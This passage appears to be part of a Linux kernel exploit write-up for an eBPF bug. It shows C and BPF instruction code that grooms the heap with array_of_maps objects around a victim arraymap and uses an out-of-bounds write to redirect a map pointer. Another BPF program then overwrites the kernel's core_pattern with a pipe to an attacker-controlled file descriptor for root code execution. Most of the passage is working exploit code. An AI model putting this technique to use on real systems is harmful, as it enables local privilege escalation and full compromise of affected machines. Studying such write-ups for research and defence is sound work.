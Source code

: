 

So later we use bpf syscall to call array_map_lookup_elem/array_map_update_elem on bigger index.

## Use victim arraymap to modified near array_of_maps's value index 0 arraymap as (core_pattern-struct_bpf_array_offset).

Out of bound access from victim to modify next chunk's contents.  
Use heap feng shui. Allocate some array_of_maps before and after victim arraymap.
```c
	// Allocate some array of maps before victim
	for (int i = 0; i < 0x10; i++)
		oob[i] = bpf_create_map(BPF_MAP_TYPE_ARRAY_OF_MAPS, 4, 4, 0x30,
					samplemap);
	victim = bpf_create_map(BPF_MAP_TYPE_ARRAY, 4, 8, 0x30, 0);

	// Allocate some array of maps after victim
	for (int i = 0; i < 0x10; i++)
		oob[i + 0x10] = bpf_create_map(BPF_MAP_TYPE_ARRAY_OF_MAPS, 4, 4,
					       0x30, samplemap);

```
The next chunk can be array_of_maps and we ovewrite its index 0 arraymap.  
```c
	// Store the address (core_pattern - struct_bpf_array_offset) we want to overwrite.
	update_elem(victim, (0x400 + 0x110 - 0x110) / 8, kaddr);
```

## Update array_of_maps to modify core_pattern.

Create another bpf program to modify index 0 arraymap and core_pattern will be overwritten.

```C
BPF_LD_MAP_FD(BPF_REG_9, target),
BPF_MAP_GET_ADDR(0, BPF_REG_9),
BPF_MAP_GET_ADDR(0, BPF_REG_8), // BPF_REG_8 will point to core_pattern
BPF_MAP_GET_ADDR(1, BPF_REG_7), // BPF_REG_8 will point to core_pattern+8
BPF_MAP_GET_ADDR(2, BPF_REG_6), // BPF_REG_8 will point to core_pattern+16

BPF_LD_MAP_FD(BPF_REG_9, data),

// Modify core_pattern to |/proc/%P/fd/666 %P
BPF_MAP_GET(0, BPF_REG_4),
BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_4, 0), 
BPF_MAP_GET(1, BPF_REG_4),
BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_4, 0),
BPF_MAP_GET(2, BPF_REG_4),
BPF_STX_MEM(BPF_DW, BPF_REG_6, BPF_REG_4, 0),

BPF_MOV64_IMM(BPF_REG_0, 0),
BPF_EXIT_INSN()
```
